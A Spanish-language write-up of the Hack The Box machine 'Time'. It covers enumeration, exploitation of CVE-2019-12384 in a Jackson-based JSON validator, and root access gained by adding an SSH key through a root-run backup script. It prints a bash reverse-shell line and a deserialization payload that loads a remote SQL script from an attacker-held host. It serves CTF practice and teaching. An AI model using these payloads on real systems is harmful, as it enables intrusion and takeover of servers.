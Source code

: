 ```yaml
---
layout: post
title: Resolución de Time (WriteUp)
categories: WriteUp
---
```


Time es una máquina Linux de Hack The Box cuya dificultad es “Medium”. Las instrucciones que se utilizan en esta resolución tienen en cuenta que estamos trabajando en un entorno controlado. 

![Time 01]({{ site.baseurl }}/images/timehtb01.png)

### Resolución de Time (user.txt)

En primer lugar enumeramos los puertos abiertos:

![Time 02]({{ site.baseurl }}/images/timehtb02.png)

Para posteriormente realizar un análisis, a través de nmap, de los servicios disponibles en dichos puertos:

![Time 03]({{ site.baseurl }}/images/timehtb03.png)

A través del servicio web disponible en el puerto 80 revisamos el código fuente y realizamos una enumeración en busca de rutas de interés:

![Time 04]({{ site.baseurl }}/images/timehtb04.png)

Pero no hay nada interesante en este aspecto. 

Entramos en la web y vemos que tiene un adaptador y validador de JSON, indicando que el “Validator” está en fase Beta. Lo probamos y este devuelve un error desde el cual podemos obtener más información de la herramienta utilizada:

![Time 05]({{ site.baseurl }}/images/timehtb05.png)

Buscamos vulnerabilidades relacionadas con Fasterxml Jackson: [https://www.cvedetails.com/vulnerability-list/vendor_id-15866/product_id-42991/Fasterxml-Jackson-databind.html](https://www.cvedetails.com/vulnerability-list/vendor_id-15866/product_id-42991/Fasterxml-Jackson-databind.html)

Nos quedamos con la vulnerabilidad [CVE-2019-12384](https://www.cvedetails.com/cve/CVE-2019-12384/) y buscamos información sobre su explotación, encontrando la siguiente forma de explotación que utilizaremos de base para poner en práctica: [https://github.com/jas502n/CVE-2019-12384](https://github.com/jas502n/CVE-2019-12384)

En el fichero inject.sql editamos la llamada a la shell para introducir nuestra propia shell como una ejecución inliner de bash. 
```sql
CALL SHELLEXEC(‘bash -i >& /dev/tcp/IP/PUERTO 0>&1’)
```

Este código, inject.sql, se encargará de establecer la conexión desde la víctima hacia nuestra máquina. Ahora debemos accionarlo. Para ello vamos a montar un servidor con SimpleHTTPServer de Python en local a través del puerto 8181 (por ejemplo) donde estará disponible el inject.sql.

Luego prepararemos un trigger que ejecute el script disponible en este servidor, de la siguiente forma como se indica en el GitHub explicando la vulnerabilidad:

```ruby
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://IP_ATACANTE:8181/inject.sql'"}]"
```

Nos ponemos a la escucha en nuestra máquina a través del puerto definido en inject.sql y, con el servidor activo y el puerto en escucha introducimos el trigger en la web:

![Time 06]({{ site.baseurl }}/images/timehtb06.png)

De esta forma ya tenemos acceso a la máquina víctima con el usuario pericles, pudiendo acceder a la primera flag.

### Resolución de Time (root.txt)

El análisis para buscar la escalada de privilegios en Linux podemos automatizarlo con scripts como [LinEnum](https://github.com/rebootuser/LinEnum) o [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), en este caso haciendo uso de LinPEAS vemos que nos devuelve una información aparentemente muy interesante sobre un script llamado timer_backup.sh:

![Time 07]({{ site.baseurl }}/images/timehtb07.png)

El script crea un zip desde /var/www/html y lo mueve a root:

![Time 08]({{ site.baseurl }}/images/timehtb08.png)

Como este script se ejecuta como root la idea será introducir un comando que agregue nuestra clave pública al authorized_keys de root para poder conectarnos por SSH. 

Para ello, creamos en el servidor un fichero con nuestra clave pública (key.txt) e introducimos al final del script un comando con el que leer nuestra clave pública del fichero key.txt y la inserte al final del fichero authorized_keys:

![Time 09]({{ site.baseurl }}/images/timehtb09.png)

Y utilizando la clave privada asociada a dicha clave pública ya podríamos acceder como root al servidor a través de SSH para visualizar la flag de root.txt:

![Time 10]({{ site.baseurl }}/images/timehtb10.png)
